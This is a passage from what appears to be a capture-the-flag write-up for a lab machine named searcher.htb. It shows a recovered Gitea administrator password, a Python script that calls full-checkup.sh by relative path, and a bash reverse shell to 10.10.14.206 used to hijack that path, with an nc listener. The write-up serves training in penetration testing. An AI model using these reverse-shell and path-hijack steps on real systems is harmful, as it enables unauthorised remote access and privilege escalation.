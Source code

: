 ```shell
  }
}
```

Nice! We were able to extract some information.

This must be the password of the user Administrator for gitea:

```shell
# Username
Administrator

# Password
yuiu1hoiu4i5ho1uh
```

Lets try to log in into gitea.searcher.htb using the following credentials:

```shell
http://gitea.searcher.htb
```

It worked! We got access into gitea as the user Administrator.

Now we can enumerate the code of the scripts present.

### Creating full-checkup.sh script with a reverse shell abusing relative path

Inside system-checkup.py we could find some lines indicating that this script runs another script called full-checkup.sh:

```shell
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```

We can try to abuse this creating a bash script called full-checkup.sh containing a reverse shell or just putting the reverse shell into the existing full-checkup.sh.

Note that the file full-checkup.sh is being called from a relative path, not from an absolute path.

First, start a nc listener on Kali:

```shell
nc -lvnp 8080
```

After that, lets create the full-checkup.sh bash script with a reverse shell

```shell
cd /tmp
echo '#!/bin/bash' > full-checkup.sh
echo 'bash -i >& /dev/tcp/10.10.14.206/8080 0>&1' >> full-checkup.sh
chmod +x full-checkup.sh
```
